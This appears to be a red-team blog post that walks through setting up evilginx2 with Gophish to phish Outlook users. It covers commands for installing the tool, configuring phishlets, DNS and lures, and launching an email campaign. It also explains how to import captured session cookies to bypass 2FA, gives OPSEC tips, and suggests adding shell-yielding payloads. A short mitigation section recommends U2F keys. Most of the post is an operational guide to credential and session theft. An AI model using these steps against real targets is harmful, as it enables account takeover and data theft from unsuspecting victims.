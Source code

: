 ```yaml
---
title: Passing the Phish II
subtitle: Integrating Gophish & Evilginx for Session Hijacking and Bypassing 2FA Authentication
author: Babligan
date: 2021-06-28 00:34:00 +0800
categories: [Infra]
tags: [smtp, phishing, postfix]
---
```


#### 3. Installing and Running evilginx2

Now that we've setup Gophish, next we'll setup evilginx which will capturee the credentials from our targets.

We will install evilginx on the second server. The official usage and installation of evilginx are available on the tool's official [Github project page](https://github.com/kgretzky/evilginx2). Before installing evilginx, we have to install Go of at least version 1.14.0.

To do so, follow these steps:

```shell
wget https://golang.org/dl/go1.16.5.linux-amd64.tar.gz
sudo rm -rf /usr/local/go && sudo tar -C /usr/local -xzf go1.16.5.linux-amd64.tar.gz
export PATH=$PATH:/usr/local/go/bin
source $HOME/.profile
```

Finally verify that you have GO installed.

```shell
go version
```

When you have GO installed, type in the following:

```shell
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
```

If you get this error, export the PATH variable again and reload bash.
![[error.png]](/assets/img/gophish/error.png)

Now that we have evilginx installed, let's run it. To do so run:

```shell
sudo ./bin/evilginx -p ./phishlets/
```

**IMPORTANT:** Ensure that there's no service running on ports TCP 443, TCP 80 and UDP 53. You may need to shutdown apache or nginx and any service used for resolving DNS that may be running. evilginx2 will tell you on launch if it fails to open a listening socket on any of these ports.
![[first-run.png]](/assets/img/gophish/first-run.png)

If you get this error, you'll want to check what service is using port 53 (it should be your default DNS resolver, so we just need to stop it and let evilginx run it's own in-built DNS server.)

```shell
sudo lsof -i :53
```

![[lsof.png]](/assets/img/gophish/lsof.png)

Then we'll stop it either by stopping the service or killing it using its PID then edit the resolv.conf file to use Google's DNS servers. If the echo command doesn't work, use nano or vim instead.

```shell
sudo systemctl stop systemd-resolved
rm /etc/resolv.conf
echo 'nameserver 8.8.8.8' > /etc/resolv.conf
```

When we restart evilginx, it should be fine.
![[second-run.png]](/assets/img/gophish/second-run.png)

The next step is the configuration of Evilginx. You have to specify the domain name and the IP address of your server:

```shell
config domain domain-name.com
config ip 1.2.3.4
```

![[config.png]](/assets/img/gophish/config.png)

Evilginx creates phishing links using phishlets. A phishlet is a YAML file that contains configuration to phish a specific website. You can access all the pre-defined phishlets at `/evilginx/phishlets` or you could view the available phishlets by typing `phishlets`.

![[phishlets.png]](/assets/img/gophish/phishlets.png)

To activate a phishlet, run the following command:
`phishlets hostname <phishlet> <hostname>` where the hostname is our domain. In our case, we want to use the outlook phishet. Therefore:

```shell
phishlets hostname outlook domain-name.com
```

![[activate.png]](/assets/img/gophish/activate.png)

For Evilginx to work correctly as a proxy, you will also have to configure the same sub-domains. To know which sub-domains are required, type:

```shell
phishlets get-hosts outlook
```

![[gethosts.png]](/assets/img/gophish/gethosts.png)

We have 3 subdomains to register: outlook, login and account. We'll register these using CNAME records on our domain registrar. On our hosting site (I'm using namechep, but the configuration is usually the same across registrars), we'll register 4 DNS records. The first will be an A record which points to the IP address of our VPS and the rest will be CNAME records for our sub-domains. One thing to note here, we don’t need to copy the `domain-name.com` part, we just need the preceding string.

![[dns.png]](/assets/img/gophish/dns.png)

Once your records have resolved (it usually takes less than 3 minutes or you could confirm with [DNSChecker](https://dnschecker.com)), we can continue with enabling our phish. To do so we run:

```shell
phishlets enable outlook
```

When enabling a phishlet, Evilginx will try to request SSL certificates from LetsEncrypt for the different sub-domains.

![[enable.png]](/assets/img/gophish/enable2.png)

Now that our phish is enabled, we'll generate a lure which is basically the link that a target clicks on. The lures have to be attached with our desired phishlet and a redirect has to be set to point towards the legitimate website that we are trying to harvest credentials for, otherwise they'll be rickrolled.

```shell
lures create outlook
lures edit 0 redirect_url https://outlook.live.com/owa/?nlp=1
lures get-url 0
```

![[lures.png]](/assets/img/gophish/lures2.png)

If you wanted to change the hostname of your lure you'd use one of the subdomains that we registered and set it as follows:

```shell
lures edit 0 hostname login.domain-name.com
```

Then you can go head and get the URL associated with the new hostname.

```shell
lures get-url 0
```

Once a target clicks on our URL, they will be sent to our phishlet. And when they enter the correct credentials, we can capture them and redirect them to the right location.

![[creds.png]](/assets/img/gophish/creds2.png)

Now that we've verified that everything works, let's tie it all together. The captured token can be imported into a browser with the EditThisCookie extension for example. By adding the cookie, the authentication is completely bypassed (even the 2FA) and the attacker has a complete access to the victim's account.

![[sessions2.png]](/assets/img/gophish/sessions2.png)

#### 4. Create and Deploy our Phish

Back to Gophish's email template and now we can craft the email we want to send our target. I'll use a simple template from [crigg626 Github repo](https://github.com/criggs626/PhishingTemplates). I'll use the [Webmail Upgrade](https://github.com/criggs626/PhishingTemplates/blob/master/emails/Upgrade%20Webmail.html) template but feel free to use whichever one.
![[final-template.png]](/assets/img/gophish/final-template.png)

Just to make sure that it would land, I edited the href tag in the HTML code to point to our evilginx link.
![[href.png]](/assets/img/gophish/href.png)

To integrate our evilginx link, we'll edit our Landing page and import the link.
![[final-landing.png]](/assets/img/gophish/final-landing.png)
![[import.png]](/assets/img/gophish/import.png)

After we've checked that all sections have been filled correctly, we can finally launch our campaign.
![[final-campaign.png]](/assets/img/gophish/final-campaign.png)

When we check our email, we find it. Yay!
![[email.png]](/assets/img/gophish/email.png)

When we click the link it opens a new tab, which is the outlook login page we had setup with evilginx. (you might have to clear your browser cache or use a different browser entirely). We sign in with some dummy creds and we are able to retrieve them on our evilginx server.

![[redirect.png]](/assets/img/gophish/redirect.png)
![[sessions.png]](/assets/img/gophish/sessions.png)

### Improvements

1. To make the phishing email even more effective, you can choose to integrate it with a technique that is able to yield a shell. XSS, Maldocs, CSRF, HTML smuggling and many others can work.
2. For OPSEC, it is best to use infrastructure that you have complete control over. So, instead of using SendGrid, you can use your own mail server.
3. Ensure that you use TLS on **ALL** your phishing infrastructure which includes Gophish's listening server.

### Mitigation

1. For this type of attack, the primary defense would always be exercising a little bit of paranoia. **Always check the legitimacy of the domain that's visible on the address bar.**
2. However, this wouldn't be enough for big companies as it just requires one  user to submit their correct credetials and just like that attackers are able to steal large amounts of data. This is where U2F for unphishable 2nd factor authentication comes in. It uses a physical hardware that you plug into a USB port and you just press a button when the website asks you to. The U2F protocol is designed to take the website's domain as one of the key components in negotiating the handshake. This means that if the domain in the browser's address bar, does not match the domain used in the data transmission between the website and the U2F device, the communication will simply fail. This solution leaves no room for error and is totally unphishable using Evilginx method.

I hope you've learnt one or two things from this article. Be sure to check out these resources. If you have any questions, or if there'somethng I might have missed out, feel free to DM me on [Twitter](https://twitter.com/babligan).

- <https://breakdev.org/evilginx-2-next-generation-of-phishing-2fa-tokens/>
- <https://babligan.github.io/posts/smtp-relaying-for-phishing/>
